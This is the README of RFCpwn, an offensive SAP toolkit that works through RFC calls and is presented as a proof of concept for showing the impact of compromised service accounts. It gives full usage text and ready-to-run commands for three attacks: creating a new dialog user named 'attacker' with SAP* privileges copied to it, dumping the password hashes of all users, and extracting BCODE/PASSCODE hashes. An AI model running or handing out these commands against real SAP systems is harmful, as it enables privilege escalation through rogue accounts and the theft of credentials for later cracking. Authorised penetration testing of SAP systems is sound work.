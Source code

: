 # RFCpwn
An SAP enumeration and exploitation toolkit using SAP RFC calls


This is a toolkit for demonstrating the impact of compromised service accounts.


This PoC is not for use in production environments, no guarantee of stability or support.


RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation
```shell
usage: RFCpwn.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping - confirm connectivity
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump 
```
